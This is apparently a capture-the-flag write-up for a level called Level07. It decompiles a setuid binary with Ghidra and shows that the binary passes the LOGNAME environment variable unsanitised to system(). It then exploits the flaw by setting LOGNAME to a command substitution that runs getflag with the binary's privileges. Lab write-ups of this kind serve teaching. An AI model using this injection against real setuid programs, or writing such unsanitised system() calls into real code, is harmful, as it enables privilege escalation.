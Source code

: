 # Level07 Writeup
 
## Info
 
User level07 has a setuid `flag07` ELF Binary `level07` in the root of his home directory, using ghidra we can decompile `level07` and take a look at the c source code.
 
`level07`
``` c
int main(int argc,char **argv,char **envp) {
   char *env; // Ghidra mess
   int retval;
   char *buffer;
   gid_t gid;
   uid_t uid;
   char *command;
   __gid_t pgid;
   __uid_t puid;
   pgid = getegid(); // Making sure setuid works
   puid = geteuid();
   setresgid(pgid,pgid,pgid);
   setresuid(puid,puid,puid);
   command = (char *)0x0;
   env = getenv("LOGNAME"); // Get env LOGNAME and store it
   asprintf(&command,"/bin/echo %s ",env); // constructs a command with /bin/echo and contents of LOGNAME
   retval = system(command); // Executes command
   return retval;
}
```
 
## Victory
 
The binary `level07` uses an environment variable to construct a command. Checking the environment variables with `env` shows that indeed `LOGNAME` is set to `level07`.

We can change the contents of `LOGNAME` using the command `export LOGNAME=\$\(getflag\)`. Now when we execute `level07` we get the flag.